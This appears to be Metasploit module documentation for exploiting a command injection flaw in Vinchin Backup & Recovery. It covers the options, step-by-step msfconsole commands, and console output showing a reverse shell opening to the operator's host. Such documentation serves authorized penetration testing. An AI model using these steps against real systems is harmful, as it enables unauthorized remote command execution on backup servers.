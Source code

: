 # Vinchin Backup & Recovery Command Injection Exploit Documentation

## Overview

**Module Name**: `exploit/linux/http/vinchin_backup_recovery_cmd_inject`

**Module Type**: Exploit

**Platform**: Linux

**Privilege Escalation**: No

**Remote Exploit**: Yes

**Disclosure Date**: 2023-10-26

## Description

A command injection vulnerability exists within the Vinchin Backup & Recovery product. This exploit module takes advantage of this vulnerability by sending a crafted HTTP request containing the injected command. Successful exploitation will result in the execution of arbitrary commands on the target system under the context of the web server user.

## Module Requirements

- Metasploit Framework
- Network access to the target system via port 443 (or other, if configured)

## Target

Vinchin Backup & Recovery systems with version detected as 7.0.1.26282.

## Options

- **RHOSTS**: The target address
- **RPORT**: The target port (default: 443)
- **SSL**: Specify the use of SSL (default: true)
- **TARGETURI**: The base path to the Vinchin Backup & Recovery application (default: `/api/`)
- **APIKEY**: The hardcoded API key required to authenticate to the API
- **Proxies**: A proxy chain
- **VHOST**: HTTP server virtual host

## Payload Options

- **LHOST**: The local host to listen on (interface/IP)
- **LPORT**: The local port to listen on (default: 4444)

## Usage Instructions

1. Use Metasploit to access the module:
   ```
   use exploit/linux/http/vinchin_backup_recovery_cmd_inject
   ```

2. Set the necessary options:
   ```
   set RHOSTS <target_ip>
   set LHOST <local_ip>
   set APIKEY <api_key>
   ```

3. (Optional) Set the payload:
   ```
   set payload <payload_name>
   ```

4. Verify the target’s vulnerability:
   ```
   check
   ```

5. Execute the exploit:
   ```
   exploit
   ```

## Scenarios

### Successful Exploitation against Vinchin Backup & Recovery 7.0.1.26282

1. Start `msfconsole` and load the exploit.
2. Set the `RHOSTS`, `RPORT`, `LHOST`, and any other required options.
3. Verify the target’s vulnerability with the `check` command.
4. Run the `exploit` command.
5. Upon successful exploitation, a shell or other specified payload will be executed on the target.

**Console Output Example**:

```
msf6 > use exploit/linux/http/vinchin_backup_recovery_cmd_inject
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set RHOSTS 192.168.56.1
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > set LHOST 192.168.56.15
msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > check

[*] HTTP Response Code: 200
[*] Detected Vinchin version: 7.0.1.26282
[+] 192.168.56.1:443 - The target is vulnerable.

msf6 exploit(linux/http/vinchin_backup_recovery_cmd_inject) > exploit

[*] Started reverse TCP handler on 192.168.56.15:4444 
...
[*] Command shell session 1 opened (192.168.56.15:4444 -> 192.168.56.1:443) at 2023-10-26 12:34:56 -0400
```